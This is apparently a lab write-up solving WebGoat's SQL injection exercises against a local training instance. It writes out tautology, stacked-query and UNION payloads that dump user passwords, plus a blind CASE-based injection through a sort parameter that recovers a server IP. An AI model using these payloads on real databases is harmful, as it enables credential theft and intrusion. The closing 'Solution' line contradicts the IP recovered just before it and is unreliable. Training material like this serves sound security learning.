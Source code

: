 # SQL Injection
1. Enter Smith as query.
2. Returned data contains information about Jon Smith.
![](Img/smith.png)
3. When SQL injection is done according to lesson, then all users table records are retrieved:
4. Enter `Smith' or '1'='1` as query (remember to not add trailing ' as it is already contained in query).
5. Returned data contains all records from users table.
![](Img/smith2.png)
## For numeric SQL injection:
1. Enter `1 or 1=1` or even `1 or true` as query.
2. Returned data contains all records from users table.
![](Img/number.png)
## SQL Advanced
### Union Attack
#### Fast answer
* write the following query `asd' or true; select * from user_system_data; --`
  * the name of the table, it is a default one and it can be found on the Internet
#### Long answer
1. First try was to query Smith as it is existing user, which returned results similar to previous exercise. That gives us insights into users table details: it has 7 columns: USERID, FIRST_NAME, LAST_NAME, CC_NUMBER, CC_TYPE, COOKIE, LOGIN_COUNT
2. On second attempt, UNION is used: Smith' union all select userid, user_name, user_name, user_name, user_name, password, cookie from user_system_data; -- with request for 7 columns (just repeat user_name enough times).
3. But in a result, comes the message:
![](Img/data_types.png)
4. Let’s now use different query: Smith' union select 1, password, password, password, password, password, 1 from user_system_data; --. As it turns out, USERID and LOGIN_COUNT are numeric types, where other columns are strings in the users table.
![](Img/passwords.png)
### SQL Injection (mitigations)
* Click on column sort performs a request to http://localhost:8080/WebGoat/SqlInjection/servers?column=ip. Which can be exploited by intercepting the request with ZAP and providing prepared string as ip.
* To get the idea about webgoat-prd IP address we first have to find out the table name and ip column name. The obvious guess is servers and ip:
`http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)`
* If that is the correct table and column name, the table will get sorted by ids.
* So after intercepting and changing the request we get the table sorted by id, the guess was correct.
* Just to check our logic, lets send request to
  * `http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM whatever WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)` (servers changed to whatever).
* It get’s this pretty error page:
```HTML
<html><body><h1>Whitelabel Error Page</h1>
  <p>This application has no explicit mapping for /error, so you are seeing this as a fallback.</p>
  <div id='created'>Thu Mar 08 17:36:52 UTC 2018</div>
  <div>There was an unexpected error (type=Internal Server Error, status=500).</div>
  <div>user lacks privilege or object not found: SERVER</div>
</body></html>
```
Now with known table and column, lets try getting some idea about webgoat-prd IP:
1. http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-prd') LIKE '192.168.%' THEN id ELSE hostname END), sorts by hostname –> wrong guess.
2. LIKE '192.%', sorts by hostname –> wrong guess. Lets back up a little then.
3. LIKE '1%', sorts by ip –> correct guess! Now we can continue by one position.
4. LIKE '10%', sorts by ip –> correct guess!
5. After some time…
6. LIKE '104.130.219.202', sorts by ip –> correct guess! That is the entire IP address.
With known `IP 104.130.219.202` providing it to the input field returns:
![](Img/mitigations.png)
7. Solution: 192.168.4.0
